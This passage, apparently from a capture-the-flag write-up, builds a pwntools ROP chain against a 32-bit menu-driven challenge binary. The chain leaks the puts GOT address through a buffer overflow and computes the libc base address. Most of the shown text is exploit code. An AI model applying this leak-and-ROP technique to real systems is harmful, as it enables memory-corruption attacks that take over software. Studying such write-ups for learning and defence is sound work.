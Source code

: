 Perfect! Our automated chain found the gadgets necessary to place the address of `puts_got` into our `puts_plt` call, and it popped out a nice little chain that we can use in our script like so:

```py
r = ROP(exe)
# ..snip
offset = 7
puts_got = exe.got['puts']

# ..snip, skip the create and power up stuff

r.puts(puts_got)
r.call(exe.sym.main)
# This auto calls puts_plt
payload = flat(
    b"B"*offset,
    r.chain(), # Calls puts with the got puts address.
    p64(exe.sym.main), # Lastly, calls main
)
```

So here I'm making a payload to send to the program. By this point we've gotten to the 3rd power up where we can overwrite stuff. So now let's beat it and take this home.

## Home Stretch

Our current script (minus the menu stuff):

```py
create(b"A" * (0x30-1))
power_up(b"A")

# --- Overwrite parts
offset = 7
puts_plt = exe.plt['puts']
puts_got = exe.got['puts']

# This changes r.chain() to include those instructions we saw.
r.puts(puts_got)
r.call(0x80487e7)
# 0x0000:        0x80484a8 puts(0x804afdc)
# 0x0004:        0x8048954 0x8048954()
# 0x0008:        0x804afdc got.puts
payload = flat(
    b"C"*offset,
    r.chain(), # Calls puts with the got puts address.
    b"DDDD"
)
power_up(payload)
beat()
beat()
ru(b"Oh ! You win !!")
rl() # Grab junk
# Grab the libc leak
leak = u32(rl()[:-1])
#^ Get rid of the newline at the end, then unpack it
print(f"=== leakin all by yourself handsome :3 ? {hex(leak)}")
libc.address = leak - libc.sym.puts
```
